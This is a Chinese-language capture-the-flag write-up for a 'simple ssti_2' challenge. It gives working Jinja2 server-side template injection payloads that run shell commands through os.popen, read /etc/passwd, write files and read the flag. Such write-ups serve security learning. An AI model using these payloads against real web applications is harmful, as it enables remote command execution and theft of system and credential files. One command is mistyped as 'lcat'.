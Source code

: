 ### simple ssti_2

可以看见这个初始界面和上个题目一样，只是没有了注释提示

在ssti中，存在任意命令执行方法（因为在python系统里面，执行系统命令需要引入os模块，因此要在模板中直接调用内置模块，需要对其注册：global['os']=os）

python 3

    #命令执行：
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
    #文件操作
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

python 2 

    #文件路径设置同linux
    #读文件：
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    #写文件：
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}

因此在本题目中，可以构造playload：?flag={{ config.____class____.____init____.____globals____['os'].popen('ls ../').read() }}(双下划线)

即读取目录下所有文件

![image.png](https://i.loli.net/2021/07/12/Tcw6hE5AGv7izUx.png)

接下来一样的步骤，挨着看每个文件，

构造：?flag={{ config.____class____.____init____.____globals____['os'].popen('ls ../app').read() }}

![image.png](https://i.loli.net/2021/07/12/1VmbFNinzDkd6GR.png)

很幸运第一个里面就有flag文件，读取输出flag文件

构造：?flag={{ config.____class____.____init____.____globals____['os'].popen('lcat ../app/flag').read() }}

![image.png](https://i.loli.net/2021/07/12/r8wxuoCZ9V7TiWG.png)